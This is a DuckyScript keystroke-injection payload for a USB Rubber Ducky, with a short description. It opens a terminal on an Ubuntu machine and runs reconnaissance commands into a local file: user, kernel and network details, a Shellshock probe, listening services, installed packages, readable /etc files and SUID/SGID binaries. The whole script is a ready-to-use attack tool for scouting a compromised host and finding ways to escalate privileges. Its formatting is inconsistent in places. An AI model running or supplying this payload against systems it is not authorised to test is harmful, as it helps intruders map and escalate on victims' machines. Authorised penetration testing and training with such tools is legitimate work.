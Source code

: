 The following script is an information gatherer script which collects info from a running Ubuntu OS and saves it to a file named "info_gathering.txt". 
The info that the script retrieves is the logged in username, the distribution and kernel version of the running system, the applicability of the shellsock bug, the mounted filesystems, information which is related to the Network adapters, availability of development tools (python, g++), contents of the hosts file and the listening TCP/UDP connections. Apart from that it attempts to find readable folders inside the /etc folder and also prints the SUID and GUID files.

    REM Info gathering Ubuntu 1.0 Script issues OS info gathering commands in terminal - by Captain_Harlock
    DELAY 3000
    ALT F2
    DELAY 300
    STRING gnome-terminal
    DELAY 100
    ENTER
    DELAY 200
    STRING clear
    DELAY 10
    ENTER
    DELAY 50
    STRING echo "Logged in user:" $USER > info_gathering.txt
    ENTER
    DELAY 50
    STRING echo >> info_gathering.txt
    DELAY 50
    ENTER 
    DELAY 50
    STRING echo -n "Distribution Kernel Version:" >> info_gathering.txt
    DELAY 50
    `ENTER `
    `DELAY 50`
    `STRING cat /etc/issue | cut -c1-13 >> info_gathering.txt`
    `DELAY 50`
    `ENTER`
    `DELAY 50 `
    `STRING echo -n "uname results: " >> info_gathering.txt`
    `DELAY 50`
    `ENTER `
    `DELAY 50`
    `STRING uname -a >> info_gathering.txt`
    `DELAY 50`
    `ENTER `
    `DELAY 50`
    `DELAY 50`
    `STRING echo >> info_gathering.txt`
    `DELAY 50`
    `ENTER `
    `DELAY 50`
    `STRING echo "Shellsock Bug Vulnerability" >> info_gathering.txt`
    `DELAY 50`
    `ENTER `
    `STRING echo >> info_gathering.txt`
    `ENTER `
    `DELAY 50`
    `STRING env x='() { :;}; echo vulnerable' bash -c `echo hello` >> info_gathering.txt`
    `DELAY 50`
    `ENTER `
    `DELAY 50`
    `DELAY 50`
    `ENTER `
    `DELAY 50`
    `STRING echo >> info_gathering.txt`
    `DELAY 50`
    `ENTER `
    `DELAY 50`
    `STRING echo "Mounted filesystems" >> info_gathering.txt`
    `ENTER `
    `DELAY 50`
    `STRING mount -l >> info_gathering.txt`
    `DELAY 50`
    `ENTER`
    `DELAY 100`
    `STRING echo >> info_gathering.txt`
    `ENTER`
    `DELAY 50  `
    `STRING echo "Network Configuration" >> info_gathering.txt`
    `DELAY 50`
    `ENTER`
    `DELAY 50`
    `STRING ifconfig -a | grep 'Link\|inet' >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING `
    `STRING echo >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING echo "Print Hosts" >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING cat /etc/hosts >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING `
    `STRING echo echo "Print ARP" >> info_gathering.txt`
    `ENTER`
    `DELAY 50  `
    `STRING arp >> info_gathering.txt`
    `ENTER`
    `DELAY 50 `
    `STRING echo >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING echo "Development tools availability" >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING which gcc >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING which g++ >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING which python >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING echo >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING echo "Print TCP/UDP Listening Services" >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING netstat -tunlpe >> info_gathering.txt`
    `ENTER`
    `DELAY 300`
    `STRING echo >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING echo "Installed Packages" >> info_gathering.txt`
    `DELAY 50`
    `ENTER`
    `DELAY 200`
     STRING dpkg -l >> info_gathering.txt
     ENTER
     DELAY 300
     STRING echo >> info_gathering.txt
     ENTER
     DELAY 50
     STRING echo "Find Readable Folders in /etc" >> info_gathering.txt
     ENTER
     DELAY 50
     STRING find /etc -user `id -u` -perm -u=r -o -group `id -g` -perm -g=r -o -perm -o=r -ls 2> /dev/null >> info_gathering.txt`
    `ENTER`
    `DELAY 500`
    `STRING echo >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING echo "Find SUID and GUID files" >> info_gathering.txt`
    `ENTER`
    `DELAY 50`
    `STRING find / -type f -perm -u=s -o -type f -perm -g=s -ls  2> /dev/null >> info_gathering.txt`
    `DELAY 50`
    `ENTER`